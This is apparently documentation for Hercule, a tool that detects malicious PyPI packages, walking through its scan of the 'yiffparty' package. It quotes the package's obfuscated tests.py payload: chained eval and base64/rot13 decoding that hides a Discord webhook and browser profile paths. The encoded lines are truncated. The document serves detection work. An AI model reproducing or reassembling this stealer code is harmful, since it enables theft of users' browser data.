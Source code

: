 # Getting Started
Let's walk through a simple example (a Hello World!) to understand how to use Hercule. 
We consider the example malicious package obtained from the [PyPI MalRegistry](https://github.com/lxyeternal/pypi_malregistry) 
located at `yiffparty/0.05/yiffparty-0.05.tar.gz`. 

This is an example of Hercule detecting a base64 encoded string flowing into a eval function call. 

Malicious Code in tests.py
```python
try:
    magic = 'V0VCSE9PS19VUkwgPSdodHRwczovL2Rpc2NvcmQuY29tL2FwaS93ZWJob29rcy84NzU5MzE5MzIzNjAzMzEyOTQvd0EwckxzM3hYXzJKZ3FsZnFFZnBZb0w5emVyX1FzN2hwc01id2FEbDYt>
    love = 'NbXI06V2kcozH6ZwVAPvNtVPNtVPNtVPNtVTMipvOCZR8jZR8jGmOCG08jZR9CZPOcovNbpvqoKUpgKKflAU1pYygpql1qrmM9KP5oKUpgKKflA30aYUVaoJMuKP5oKUpgKKf4AU0aXGbwoTy>
    god = 'T3BlcmEnOk8wMDBPMDAwME8wT09PTzBPICsnXFxPcGVyYSBTb2Z0d2FyZVxcT3BlcmEgU3RhYmxlJywnQnJhdmUnOk9PMDAwT09PTzBPME9PTzAwICsnXFxCcmF2ZVNvZnR3YXJlXFxCcmF2ZS>
    destiny = 'AfnJ5yBwHmQDbtVPNtVPNtVPNtVPNtVPNtG09CZQNjZQNjGmOCGmNjZR8tXm1zW3gCZR8jZQOCZQNjG09CGmNjZU1povpwoTyhMGb1AN0XVPNtVPNtVPOyoUAyVQbwoTyhMGb1AD0XVPNt>
    joy = '\x72\x6f\x74\x31\x33'
    trust = eval('\x6d\x61\x67\x69\x63') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x6c\x6f\x76\x65\x2c\x20\x6a\x6f\x79\x29') + eval('\>
    eval(compile(base64.b64decode(eval('\x74\x72\x75\x73\x74')),'<string>','exec'))
except: 
    pass

```

Note that the above malicious code is not in `setup.py` but rather in another file named `tests.py`


### Running Hercule
Once we download the package from the repository, we run Hercule to analyze the package

```bash
  hercule -F path/to/package/file
```

Following is the output of the run:

```bash
                Analysis Results
                __________________________________________________________________________________________

                Integrity
                        has-integrity: False
                        suspicious source file additions: 9
                        suspicious source file modifications: 0
                        suspicious source location modifications: 0
                Malicious Code Segments (Bandit4Mal)
                        has-malicious-code: False
                        package alerts: 0
                        setup alerts: 0
                        filtered package alerts: 0
                        filtered setup alerts: 0
                Malicious Code Segments (Code4QL)
                        has-malicious-behavior: True
                        malicious behavior alerts: 57
                        malicious behavior files: 4
                        malicious alerts in setup: 0
                        filtered behavior alerts: 51
                        filtered behavior files: 2
                        filtered alerts in setup: 0
                Transitive Dependencies Analysis
                        is-compromised: False
                        failed dependencies: []
                        malicious dependencies: []

 Hercule finished successfully after 0.729 minutes
```

The output indicates the package has malicious behavior, which then reports 51 filtered alerts in 2 files.
We first determine what are the files that have been flagged by Hercule from the report generated at `results/yiffparty-0.05.tar.gz.min.json`

```json
{
  "package-name": "yiffparty",
  "file-name": "yiffparty-0.05.tar.gz",
  "version": "0.05",
  "source-url": null,
  "github-page": null,
  "has-integrity": false,
  "has-malicious-code": false,
  "has-malicious-behavior": true,
  "is-compromised": false,
  "bandit-analysis": {
    "setup-alerts": 0,
    "filtered-setup-alerts": 0,
    "pkg-alerts": 0,
    "filtered-pkg-alerts": 0
  },
  "general": {
    "suspicious-new-files": 9,
    "suspicious-modified-files": 0,
    "total-suspicious-modifications": 0,
    "total-suspicious-files": 9
  },
  "dep-analysis": {
    "failed-list": [],
    "malicious-list": []
  },
  "codeql-analysis": {
    "codeql-setup-alerts": 0,
    "codeql-alerts": 57,
    "codeql-file-count": 4,
    "hercule-setup-alerts": 0,
    "codeql-domain-count": 50,
    "hercule-alerts": 51,
    "hercule-file-count": 2,
    "hercule-files": [
      "/opt/hercule/experiments/yiffparty-0.05.tar.gz-dir/yiffparty-0.05/yiffparty/tests.py",
      "/opt/hercule/experiments/yiffparty-0.05.tar.gz-dir/yiffparty-0.05/yiffparty/horni.py"
    ]
  },
  "scan-duration": "0.728"
}

```

Observing from `hercule-files` we can identify the files that have been flagged in the package as containing malicious behavior. 
In order to further analyse the behavior we dive into the detailed report generated at `results/yiffparty-0.05.tar.gz.json`
For brevity, we print two alerts from the json object indexed at `hercule-report`. 

Base64 Flow detection
```json
          {
            "ruleId": "py/base64-flow",
            "ruleIndex": 21,
            "rule": {
              "id": "py/base64-flow",
              "index": 21
            },
            "message": {
              "text": "Base64 data flows from /opt/hercule/experiments/yiffparty-0.05.tar.gz-dir/yiffparty-0.05/yiffparty/tests.py:14 to an execution/file-write at /opt/hercule/experiments/yiffparty-0.05.tar.gz-dir/yiffparty-0.05/yiffparty/tests.py:14"
            },
            "locations": [
              {
                "physicalLocation": {
                  "artifactLocation": {
                    "uri": "yiffparty-0.05/yiffparty/tests.py",
                    "uriBaseId": "%SRCROOT%",
                    "index": 0
                  },
                  "region": {
                    "startLine": 14,
                    "startColumn": 18,
                    "endColumn": 64
                  }
                }
              }
            ],
            "partialFingerprints": {
              "primaryLocationLineHash": "228f631a5410eb5a:1",
              "primaryLocationStartColumnFingerprint": "13"
            }
          }

```
This report indicate the flow source to destination at line level, it also reports which CodeQL rule was used to flag
the behavior. 

Similarly, Hercule also detects a domain-name flowing into a `request` API call

```json
        {
            "ruleId": "py/domain-flow-name-const",
            "ruleIndex": 7,
            "rule": {
              "id": "py/domain-flow-name-const",
              "index": 7
            },
            "message": {
              "text": "Detected FLOW of URL: https://yiff-party.com/category/yiff-animated/ , from /opt/hercule/experiments/yiffparty-0.05.tar.gz-dir/yiffparty-0.05/yiffparty/horni.py:116"
            },
            "locations": [
              {
                "physicalLocation": {
                  "artifactLocation": {
                    "uri": "yiffparty-0.05/yiffparty/horni.py",
                    "uriBaseId": "%SRCROOT%",
                    "index": 3
                  },
                  "region": {
                    "startLine": 116,
                    "startColumn": 11,
                    "endColumn": 59
                  }
                }
              }
            ],
            "partialFingerprints": {
              "primaryLocationLineHash": "8e4fa08913008cb5:1",
              "primaryLocationStartColumnFingerprint": "6"
            }
          }
```
